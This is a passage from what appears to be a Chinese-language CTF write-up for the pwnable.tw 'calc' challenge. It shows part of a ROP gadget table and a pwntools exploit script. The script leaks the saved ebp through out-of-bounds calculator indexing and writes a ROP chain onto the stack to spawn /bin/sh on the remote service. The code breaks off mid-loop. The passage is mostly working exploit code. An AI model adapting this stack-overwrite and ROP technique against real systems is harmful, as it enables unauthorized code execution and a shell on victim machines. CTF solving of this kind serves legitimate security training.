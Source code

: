 |   mov eax，0xc; pop edi; ret    | 362  |
|        xor eax,eax; ret        | 361  |
|      旧的ebp的值，也就是存放返回地址的地址      | 360  |

最终的payload如下：

```python
from pwn import *

debug = False

if debug:
	s = process('./calc')
	context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
	gdb.attach(proc.pidof(s)[0])
else:
	s = remote('chall.pwnable.tw',10100)

stack = [0x080550d0,0x0808f936,0x0,0x08065773,0x080701d0,0x0,0x0,0x0,0x08049a21,u32('/bin'),u32('/sh\0')]

def get_ebp():
	payload = '+' + str(360)
	s.send(payload+'\n')
	ebp = int(s.recv(1024))+0x100000000
	return ebp

def set_ebx():
	ebp = get_ebp()
	ebx = ebp+0x8
	print 'ebp is %x and set ebx with %x' % (ebp, ebx)
	stack[7] = ebx

def write_stack():
	for i in range(361,372):
		index = i-361
		payload = '+' + str(i)
		print '[*] - send : ' + payload
		s.send(payload+'\n')
		num = int(s.recv(1024))
		offset = stack[index] - num
		print '[*] offset is %x' % (offset)
		if offset < 0:
			payload_ = payload +'-' + str(-offset) + '\n'
		else:
			payload_ = payload + '+' + str(offset) + '\n'
		s.send(payload_)
		print '[*] set stack with sending: ' +payload_
		value = int(s.recv(1024))
		if value < 0:
			value += 0x100000000
		print 'recive %x and new stack is %x' % (value, stack[index])
		while value != stack[index]:
			offset = stack[index] - value
			if offset < 0:
				payload__ = payload + '-' + str(-offset) + '\n'
			else:
				payload__ = payload + '+' + str(offset) + '\n'
			s.send(payload__)
			print '[!] send again with ' + payload__
			value = int(s.recv(1024))
			if value<0:
				value += 0x100000000
```